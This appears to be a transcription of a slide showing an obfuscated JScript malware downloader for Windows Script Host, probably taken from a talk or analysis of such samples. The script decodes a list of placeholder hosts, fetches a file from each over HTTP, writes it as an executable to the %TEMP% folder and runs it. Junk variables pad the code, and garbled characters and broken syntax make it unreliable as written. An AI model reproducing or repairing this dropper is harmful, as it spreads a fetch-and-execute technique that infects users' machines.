

var nasdh="99";
var nasdj="b99a99d99.99e99x99a99m99p99l99e99299.99c99o99m99
99b99a99d99d99e99r99.99e99x99a99m99p99l99e99.99c99o99m99".replace(nasdh,'').split(" ");
var NrkQD=38105;
var nasdi=WScript.CreateObject("WScript.Shell");
var ahu2=“3”;
var nasmm=nasdi.ExpandEnvironmentStrings("%TEMP%")+ String.fromCharCode(92)+"107« ;
 var naddk=WScript.CreateObject ("MSXML2.XMLHTTP");
var 8oltX=13802;
var nasbv=WScript.CreateObject ("ADODB.Stream");
var y7tdu=64936;var ld = 0;
for (var nasd8=ld;nasd8<nasdj.length;nasd8++) {
naddk.open("G"+"E"+"T","ht"+""+"tp://"+nasdj[nasd8]+"/cou"+""+nter/?id="+nasd8+
"&rnd=711791"+n, false);
	var Nkz2x=25991;
	naddk.send();
	var JRQE2=25337;
	if (naddk.status==(100+200-100)){
	nasbv.open();
	var EcZUA=76990;
	 nasbv.saveToFile(nasmm+nasd8+".exe",2);
	nasdi.Run(nasmm+nasd8+".exe",1,0); } }